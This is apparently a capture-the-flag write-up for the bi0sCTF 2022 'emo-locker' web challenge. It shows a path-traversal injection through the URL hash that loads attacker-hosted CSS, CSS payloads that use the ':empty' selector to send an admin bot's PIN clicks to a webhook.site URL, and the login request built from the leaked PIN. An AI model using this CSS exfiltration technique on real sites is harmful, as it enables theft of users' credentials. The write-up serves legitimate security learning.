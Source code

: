 # bi0sCTF-2022-emo-locker

The first thing we identify is that the app is taking a value from the URL without filtering it and use it to load CSS code.
![image](https://user-images.githubusercontent.com/14858959/214001671-b508e6a2-23e2-4f8f-9df0-80f4bf4cf5da.png)

We can exploit this by inserting on the URL our custom hash, pointing to our malicious code:
```
https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/xxxxxxx-mode.css
```
By visiting `http://web.chall.bi0s.in:10101/#../../gh/GramThanos/github_repo_here@github_commit_here/malicious.css?` the CSS that the page will load will be:
```
https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/../../gh/GramThanos/github_repo_here@github_commit_here/malicious.css?-mode.css
```

Since the code is in CSS, we will have to detect the user actions (click) using CSS. This is done by creating a request on each action and monitoring the requests. Normaly to do that you add background image requests on actions such as "hover", "focus", "active", but here since the client is a bot, such mouse events where not working.

First we added an instant request to verify that our code was working:
```css
body {background-image: url('https://webhook.site/8566bcb8-ed2f-468c-8ad3-d587c2494428?i=loaded');}
```
![image](https://user-images.githubusercontent.com/14858959/214003245-2a86c85d-6a05-4b9e-b322-7a379ca1ebf4.png)

Then my observing the page we identified that on each click, the emoji was removed, leaving the button empty from content... thus after some searching we identified the `:empty` css selector that could be used to fire our events.
For for emoji with id 1 we had the CSS code:
```css
span[role=img][aria-label="1"]:empty {background: url('https://webhook.site/8566bcb8-ed2f-468c-8ad3-d587c2494428?i=1');}
```

We send the link `http://web.chall.bi0s.in:10101/#../../gh/GramThanos/bi0sCTF-2022-emo-locker@53e70828379f3826a4213dd952307526b4a4707a/malicious.css?` to the bot. And we got the click events:
![image](https://user-images.githubusercontent.com/14858959/214003788-0a64022e-8195-4d0f-9edb-a745e7eea470.png)
By instecting the events from the first to the last one we tritrieved the admin password:
```
[51, 32, 73, 34, 85, 126, 17, 158, 79, 50]
``` 

We make to request to login:
```javascript
fetch("http://web.chall.bi0s.in:10101/api/login", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,el;q=0.8",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://web.chall.bi0s.in:10101/?",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"username\":\"admin\",\"pin\":[51, 32, 73, 34, 85, 126, 17, 158, 79, 50]}",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```
![image](https://user-images.githubusercontent.com/14858959/214001505-7888f7ef-10a7-4b46-9e3a-a8d7842a884d.png)


The flag is returned as a cookie:
![image](https://user-images.githubusercontent.com/14858959/214001253-0ba31965-9e3d-4bda-9ed4-f1a4083ccb0c.png)
